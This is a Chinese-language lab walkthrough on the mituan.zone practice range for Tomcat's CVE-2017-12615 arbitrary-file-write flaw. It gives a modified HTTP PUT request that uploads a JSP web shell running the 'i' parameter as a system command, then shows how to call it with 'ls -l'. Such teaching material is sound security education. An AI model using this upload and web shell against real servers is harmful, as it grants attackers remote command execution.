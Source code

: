 首先，我们来了解下Tomcat是什么？

Tomcat 服务器是一个免费的开放源代码的Web应用服务器，属于轻量级应用服务器，在中小型系统和并发访问用户不是很多的场合下被普遍使用。实际上，Tomcat是Apache服务器的扩展，但运行时它是独立运行的，所以当你运行Tomcat时，它实际上是作为一个与Apache独立的进程单独运行。

在对它有了一定的了解之后，我们来对Tomcat做一些安全性分析。Tomcat中存在一个知名的安全配置问题，它就是CVE-2017-12615。具体的问题体现为，当Tomcat运行在Windows主机上，并且在conf/web.xml的配置文件中将DefaultServlet readonly设置为false，那么如果它启用了HTTP PUT请求方法，就会导致任意写文件的安全问题发生。

接下来，让我们通过实战，加深一下对Tomcat配置安全问题的理解吧。

首先，登录谜团（mituan.zone）并选择【Tomcat专题：CVE-2017-12615】靶机，如果你可以看到如下页面，那就成功打开了我们的靶场。



其次，我们要测试一下是否可以上传文件到服务器目录下。具体的实践方式为，使用BurpSuite拦截该网页，获取到如下报文：

GET / HTTP/1.1
Host: 45e308724beb41f1943f19e8652afb2e.app.mituan.zone:8080
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.54 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close


然后我们将它进行修改为如下报文，并进行发送。

PUT /1.jsp/ / HTTP/1.1
Host: 45e308724beb41f1943f19e8652afb2e.app.mituan.zone:8080
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.54 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

<%
        java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter("i")).getInputStream();
      int a = -1;
      byte[] b = new byte[2048];
      out.print("<pre>");
      while((a=in.read(b)) != -1){
                    out.println(new String(b));
            }
      out.print("</pre>");
%>


修改后的报文，可以向Tomcat服务器尝试写入1.jsp文件。其中1.jsp文件的内容为报文下方<% %>内的部分。这部分的功能就是获取get方式上传的参数i，并将它当作命令去执行。

接下来，我们去测试尝试的攻击行为是否成功。访问路径 /1.jsp?i= ls -l，其中 1.jsp 就是我们刚刚写入的文件，而 ?i=ls -l，这是通过get方式上传参数i，并将它的值设为 ls -l。
